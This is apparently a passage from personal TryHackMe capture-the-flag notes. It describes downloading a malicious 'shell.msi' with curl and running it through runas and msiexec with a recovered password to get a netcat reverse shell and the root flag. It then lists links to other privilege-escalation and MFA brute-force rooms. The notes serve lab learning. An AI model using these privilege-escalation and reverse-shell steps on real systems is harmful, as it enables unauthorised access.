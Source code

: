 Now let’s start again a python http server and get that msi file on the target machine with curl again.

Example: 

![[Pasted image 20240304190439.png]]

![[81q2bd8d.bmp]]

After a lot of googling on how to run this, I found out that we didn’t have credentials for nothing. We need to use **runas** to run the installation as the user we are currently logged in. 

Command:

> runas /user:dev-datasci-lowpriv "msiexec /i C:\\Users\\dev-datasci-lowpriv\\Downloads\\shell.msi /qn"

or   

> runas /user:dev-datasci-lowpriv "msiexec /i C:\\Users\\dev-datasci-lowpriv\\Desktop\\shell.msi /qn"



-> insert the password we found in the scan before
This one:
![[Pasted image 20240304191133.png]]

And there we go, we have the session open on netcat! search for the root flag:

![[7yrqresr.bmp]]

![[1u0tveor.bmp]]


---

## THM Biteme

Room: https://tryhackme.com/r/room/biteme (Bruteforcing MFA & Fail2ban Manipulation)

Video resorce: https://www.youtube.com/watch?v=vAlkrw-o7m4



---


# THM WindowsPrivSec

https://tryhackme.com/room/windows10privesc

---

# THM LinuxPrivSec
